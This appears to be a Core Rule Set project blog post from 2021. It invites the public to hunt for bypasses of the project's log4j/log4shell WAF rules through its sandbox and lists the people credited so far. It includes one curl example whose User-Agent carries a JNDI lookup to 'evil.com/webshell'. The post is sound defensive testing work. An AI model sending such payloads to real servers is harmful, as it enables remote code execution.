 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-16T13:01:59+01:00'
title: Public Hunt for log4j / log4shell Evasions / WAF Bypasses
url: /2021/12/16/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
---
```



We have been updating our detection for the infamous CVE-2021-44228 vulnerability and its siblings for several days now. With the new experimental rule 1005, we think we really have decent detection capabilities now. Read up on this development in the separate blog post [CRS and Log4j / Log4Shell / CVE-2021-44228](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).  
  
Right before the log4j CVE was published, we took up our [CRS Sandbox](https://coreruleset.org/20211209/introducing-the-crs-sandbox/) that lets you test payloads against various CRS installations.  
  
We have now combined the [](https://coreruleset.org/20211209/introducing-the-crs-sandbox/)CRS Sandbox and the log4j detection to give you access to a live system with our new rule 1005 (and the expanded 932130). Successful bypasses will be listed in the Hall-of-Fame below.

#### How test my bypass?

```
$ curl -H 'x-crs-version: 3.4.0-dev-log4j' -H 'x-format-output: txt-matched-rules' -H 'User-Agent: ${jndi:ldap://evil.com/webshell}' https://sandbox.coreruleset.org/
```

The important bit is the custom HTTP header `x-crs-version: 3.4.0-dev-log4j`:[ ](<x-crs-version: 3.4.0-dev-log4j>)With this version string you get onto our new instance that carries the latest versions of the log4j attack detection. The other instances are vanilla CRS tags. They won't get the new rules / capabilities until we do a new release (and given we're usually not add new rules to existing stable releases in order to avoid introducing new false positives, this won't be anytime soon).

#### Rules to get into the Hall-of-Fame

You need to do three things:

- You need to pull off a bypass against the sandbox.
- You need to tell us about the bypass by submitting your payload via mail to security at coreruleset.org.
- You need to declare that this is in fact a working exploit.

We do not have the capacity to determine whether bypasses actually work as an exploit against log4j. So we kind of need to take your word for it.

If somebody in the community has the knowledge and the capacity to support us with this discussion, then please get in touch.

#### Hall-of-Fame

- Dominik Strecker, Syracom Schweiz AG : *Bypass via an XML attribute due to broken XPath selector in our rule 1005.*

##### Honorary mentions

- *Denis Augsburger ([@denisaugsburger](https://twitter.com/denisaugsburger)), TWTeam Switzerland : Bypass of rule 1005 with a spectacular evasion, that was detected by extended rule 932130*
- *Matej Sustr, Slovakia: Bypass of rule 1005 with an alternative evasion to Denis Augsburger's bypass, also detected by rule 932130*.
- *Matej Sustr, Slovakia: Bypass of rule set with an interesting evasion that depends on server side decoding before hitting log4j*.

Denis Augsburger has found a way around 1005 and we might have to update the rule. The problem is that his evasion is exploiting a fundamental mis-conception of our rule. We still think we are on the safe side thanks to 932130, but investigation continues.

The 2nd bypass of Matej Sustr is also very interesting because it goes undetected entirely. It exploit a vanilla log4j, though. It takes a special use case where Java code decodes the payloads before sending it to log4j.

#### Changelog

2021-12-16 12:30 CET: Published  
2021-12-20 10:30 CET: Added Dominik Strecker to hall of fame  
2021-12-20 14:00 CET: Added Syracom Schweiz AG to Dominik's name  
2021-12-23 16:40 CET: Added Denis Augsburger, TWTeam, under Honorary mentions  
2022-01-07 14:30 CET: Added Matej Sustr under Honorary mentions
